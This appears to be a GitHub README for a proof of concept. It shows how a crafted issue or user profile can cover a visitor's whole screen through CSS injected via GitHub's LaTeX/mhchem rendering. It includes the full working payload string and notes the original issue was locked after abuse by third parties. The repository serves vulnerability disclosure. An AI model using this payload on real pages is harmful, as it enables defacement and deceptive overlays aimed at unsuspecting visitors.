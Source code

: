 # GithubFullscreenIssuePoC

This repo is to demonstrate an issue with Github that covers the users screen when they visit a custom crafted issue / user profile.

Issue Link / PoC: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC/issues/1)  

Note: Issue as been closed and locked due to abuse by third-party users.  

Issue Source (May contain needless markup - PoC was taken from in-progress exploits):

```
Test

$$\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: 5; position: fixed; inset: 0; opacity: 100%; background-size: 100% 100%; background-image: url('https://raw.githubusercontent.com/Reelix/GithubFullscreenIssuePoC/main/Github-Logo.png');]{x0000}$}$$
```
